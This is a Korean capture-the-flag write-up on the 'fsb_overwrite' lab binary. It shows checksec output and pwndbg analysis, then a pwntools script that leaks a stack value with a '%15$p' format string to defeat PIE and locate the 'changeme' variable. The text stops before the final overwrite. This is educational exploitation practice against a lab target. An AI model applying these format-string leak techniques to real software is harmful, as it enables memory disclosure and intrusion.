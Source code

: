 `get_string`으로 입력을 계속 받고있고, `int changeme` 가 1337 일 때 정답이 되므로 저 변수만 값을 조정해주면 쉽게 해결할 수 있는 문제이다.  

위치입력을 받는 곳과 `changegame`이 어디있는지 동적분석으로 파악해보자.  
<br>

**적용 보안기법**
```bash
pwndbg> checksec
[*] '/root/fsb_overwrite'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

<br>
<br>

**동적 분석**

분석에 들어가기 전에 우선 파일을 실행시켜서 어떤 값을 내오는지 봤다.  

<img width="933" height="105" alt="image" src="https://github.com/user-attachments/assets/af1ae538-b5f1-42fb-b5f5-ddbd07bf0eb8" />

그리고 changeme 가 어디 존재하는지 봐주자.  

<br>

<img width="913" height="511" alt="image" src="https://github.com/user-attachments/assets/8818b151-e932-480d-8d07-d2068321a1f8" />



<br>


`changeme`의 주소는 `0x5da8ac9cc01c` 가 `offset = 0x3000`, `+0x1c` 위치라는 bss 영역인 걸 확인했다.  

그리고 이제 스택 영역에서 main주소가 담겨있는 곳을 알아낸 뒤 PIE의 베이스 주소를 구하면 된다.   

<br>


<img width="1766" height="907" alt="image" src="https://github.com/user-attachments/assets/01c6cdee-8a56-417b-8378-f307a8278d63" />  
(이전 사진에 x/g 명령어 오류가 있어서 사진을 대체함. main 주소는 달라졌으나 인자 순서는 동일함.)


이렇게 `get_string` 함수 이전에 스택이 어떻게 생겼는지와, 메인 주소와의 거리도 계산해줘서 15번째 인자를 호출해주면 되는 것을 쉽게 알아낼 수 있다.    

여기까지 코드를 짜보자.  

<br>

**익스플로잇코드 (base 구하기)**

```bash
from pwn import *

p = process('./fsb_overwrite')
e = ELF('./fsb_overwrite')

offset_changeme = e.symbols['changeme']
offset_main = e.symbols['main']
print("main offset: ", hex(offset_main))

p.sendline(b'%15$p')
main_addr = int(p.recvline()[:-1], 16)

base = main_addr - offset_main
changeme = base + offset_changeme

print("base: ", hex(base))
print("changeme: ", hex(changeme))
```